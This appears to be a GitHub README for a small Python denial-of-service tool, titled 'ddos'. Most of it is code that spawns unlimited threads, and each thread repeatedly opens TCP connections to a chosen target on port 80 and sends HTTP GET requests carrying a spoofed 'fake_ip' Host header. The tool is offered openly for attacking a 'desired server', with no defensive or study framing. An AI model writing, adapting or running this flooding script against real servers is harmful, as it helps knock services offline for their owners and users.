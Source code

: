 # ddos
### A method for dos attack on the desired server

```

import socket # for connection

import threading # for Multitasking at the same time

```
### We start writing the rest of the tool code

# Setting up a fake IP and attacking the target host
‍‍‍‍
```
import socket
import threading

target = '127.0.0.1' # target ip
fake_ip = '108.61.128.158'
port = 80

an = 0
def attack():
    while True:
        client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        client.connect((target, port))
        client.sendto(("GET /" + target + " HTTP/2\r\n").encode('ascii'), (target, port))
        client.sendto(("Host: " + fake_ip + "\r\n\r\n").encode('ascii'), (target, port))
        
        global an
        an += 1
        print(an)
        
        client.close()
```
```
while True:
    thread = threading.Thread(target=attack)
    thread.start()
```

<img src="https://github.com/drcayber/ddos/blob/main/Updload/ddos.jpg">
# Don't be disappointed
